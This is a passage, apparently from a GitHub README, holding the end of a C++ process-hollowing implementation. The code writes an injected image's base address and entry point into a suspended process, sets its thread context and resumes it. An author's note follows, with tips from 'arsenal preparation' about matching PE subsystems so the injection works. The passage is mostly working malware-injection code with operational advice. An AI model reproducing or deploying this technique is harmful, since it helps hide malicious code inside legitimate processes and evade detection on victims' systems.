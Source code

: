 ```cpp

	// Write The New Entry Point
	DWORD entryPoint = (DWORD)((LPBYTE)allocatedMemory + ntHeaders->OptionalHeader.AddressOfEntryPoint);
	threadContext->Eax = entryPoint;
#endif
#ifdef _WIN64
	// Write The New Image Base Address
	WriteProcessMemory(procInfo.hProcess, (PVOID)(threadContext->Rdx + (sizeof(SIZE_T) * 2)), &ntHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);

	// Write The New Entry Point
	DWORD64 entryPoint = (DWORD64)((LPBYTE)allocatedMemory + ntHeaders->OptionalHeader.AddressOfEntryPoint);
	threadContext->Rcx = entryPoint;
#endif

	printf("\n[+] Setting the Thread Context.\n");
	if (!SetThreadContext(procInfo.hThread, threadContext)) {
		printf("Error setting context\n");
		return 0;
	}

	printf("[+] Resuming Thread.\n");
	if (!ResumeThread(procInfo.hThread)) {
		printf("[-]Error resuming thread\n");
		return 0;
	}

	printf("[+] Process Hollowing Technique Done");
	return 0;
}


```
##NOTE
During my arsenal preparation, I faced alot of issues while developing process hollowing. The main issue, I noticed with this technique is related to subsystems. Please keep in mind, as per my knowledge if the subsystem of target process is different the subsystem of injected binary then you will face error. So make sure injected binary should has same subsystem as target process. You can change the binary subsystem using any PE editor tool such as (PE-Bear, HxD).

1. IMAGE_SUBSYSTEM_NATIVE (1)
2. IMAGE_SUBSYSTEM_WINDOWS_GUI (2)
3. IMAGE_SUBSYSTEM_WINDOWS_CUI (3)
4. IMAGE_SUBSYSTEM_OS2_CUI (5)
5. IMAGE_SUBSYSTEM_POSIX_CUI (7)
6. IMAGE_SUBSYSTEM_NATIVE_WINDOWS (8)
7. IMAGE_SUBSYSTEM_WINDOWS_CE_GUI (9)
8. IMAGE_SUBSYSTEM_EFI_APPLICATION (10)
9. IMAGE_SUBSYSTEM_EFI_BOOT_SERVICE_DRIVER (11)
10. IMAGE_SUBSYSTEM_EFI_RUNTIME_DRIVER (12)
11. IMAGE_SUBSYSTEM_EFI_ROM (13)
12. IMAGE_SUBSYSTEM_XBOX (14)
13. IMAGE_SUBSYSTEM_WINDOWS_BOOT_APPLICATION (16)
